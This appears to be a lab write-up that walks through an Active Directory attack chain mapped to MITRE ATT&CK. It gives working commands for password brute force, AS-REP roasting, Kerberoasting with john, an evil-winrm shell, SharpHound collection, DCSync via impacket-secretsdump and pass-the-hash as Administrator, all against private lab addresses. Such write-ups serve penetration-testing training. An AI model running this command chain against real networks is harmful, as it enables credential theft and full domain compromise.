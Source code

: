```yaml
---
title: Attack Scenarios (MITRE)
---
```


# Active Directory Attack Scenarios (mapped to MITRE ATT&CK)
<u>**Passwords and hashes have been concealed to retain confidentiality.**</u>

## <u>Brute Forcing Guest Account</u>
- **Techniques:** T1110.001 (Brute Force: Password Guessing)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Guest' -p /usr/share/wordlists/rockyou.txt --ignore-pw-decoding`
![1](img/1.png){ loading=lazy }


## <u>Enumerating SMB Shares</u>
- **Techniques:** T1135 (Network Share Discovery)
- **Procedure:**

`nxc smb 192.168.25.141 -u 'Guest' -p '_________' --shares`
![2](img/2.png){ loading=lazy }


## <u>ASReproast Domain Account</u>
- **Techniques:** T1558.004 (Steal or Forge Kerberos Tickets: AS-REP Roasting), T1110.002 (Brute Force: Password Cracking)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '' --asreproast asreproast.txt`
![3](img/3.png){ loading=lazy }

`john --wordlist=/usr/share/wordlists/rockyou.txt asreproast.txt`
![4](img/4.png){ loading=lazy }


## <u>WinRM Shell with Domain Account</u>
- **Techniques:** T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'bob' -p '_________’`
![5](img/6.png){ loading=lazy }

## <u>Upload of SharpHound</u>
- **Techniques:** T1021.006 (Remote Services: Windows Remote Management), T1059.003 (Command and Scripting Interpreter: Windows Command Shell)
- **Procedure:**

`upload SharpHound.exe`
![7](img/7.png){ loading=lazy }

## <u>Execution of SharpHound</u>
- **Techniques:** T1069.002 (Permission Group Discovery: Domain Groups), T1087.002 (Account Discovery), T1018 (Remote System Discovery), T1482 (Domain Trust Discovery), T1560 (Archive Collected Data)
- **Procedure:**

`./SharpHound.exe`
![8](img/8.png){ loading=lazy }

## <u>Exfiltration of Data Collected by SharpHound</u>
- **Techniques:** T1041 (Exfiltration Over C2 Channel)
- **Procedure:**

`download 20250910173643_BloodHound.zip`
![10](img/10.png){ loading=lazy }

## <u>Bloodhound</u>
![11](img/11.png){ loading=lazy }

## <u>Kerberoast of svc-test</u>
- **Techniques:** T1558.003 (Steal or Forge Kerberos Tickets: Kerberoasting), T1110.002 (Brute Force: Password Cracking), T1078.002 (Valid Accounts: Domain Accounts)
- **Procedure:**

`nxc ldap 192.168.25.137 -u 'Bob' -p '_________' --kerberoasting kerbroast.txt`
![12](img/12.png){ loading=lazy }
`john --wordlist=/usr/share/wordlists/rockyou.txt kerbroast.txt`
![13](img/13.png){ loading=lazy }

## <u>DCSync</u>
- **Techniques:** T1003.006 (OS Credential Dumping: DCSync), T1078.002 (Valid Accounts: Domain Accounts)
- **Procedure:**

`impacket-secretsdump -just-dc LAB/svc-test:'_________'@WIN-LLBIAPV2E9D.lab.local`
![14](img/14.png){ loading=lazy }

## <u>Pass-the-hash to Login as Domain Admin</u>
- **Techniques:** T1550.002 (Use Alternate Authentication Material: Pass the Hash), T1078 (Valid Accounts), T1021.006 (Remote Services: Windows Remote Management)
- **Procedure:**

`evil-winrm -i 192.168.25.137 -u 'Administrator' -H '__________________’`
![15](img/15.png){ loading=lazy }
